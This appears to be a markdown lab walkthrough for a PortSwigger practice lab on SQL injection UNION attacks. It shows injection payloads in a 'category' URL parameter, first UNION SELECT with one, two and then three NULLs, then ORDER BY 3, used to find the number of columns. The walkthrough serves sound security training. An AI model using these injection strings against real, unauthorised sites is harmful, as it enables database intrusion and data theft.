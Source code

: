 ## Welcome, my friend. Today we will start the [8. SQLLI lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/3f3d45b8-1cfe-4b25-8db1-493005642d00)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/2ef863bf-3fea-4e67-af7d-0dbc93f195ce)


### We discover this page and find category paramater ```/filter?category=```.
### Let's test and inject this param:

```
filter?category=Pets' UNION SELECT NULL--
```
![image](https://github.com/user-attachments/assets/80413172-d1ad-4659-9825-4fd8e7e93917)


### Ok, no there one value , Let's go guess ```2``` value:

```
filter?category=Pets' UNION SELECT NULL,NULL--
```

![image](https://github.com/user-attachments/assets/8cfd80c3-8e02-4619-a36c-d38fa30c86ac)

### Ok, no there 2 value , Let's go guess ```3``` value:

```
filter?category=Pets' UNION SELECT NULL,NULL,NULL--
```

![image](https://github.com/user-attachments/assets/4a7cfdb6-88fd-482d-aa68-9bfd5867f4f4)


## We also can using following payloads:

```
filter?category=Pets' ORDER BY 3--
```

![image](https://github.com/user-attachments/assets/c36b3d4e-65bf-4254-aed7-60f2f52509ae)

-------------------------


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
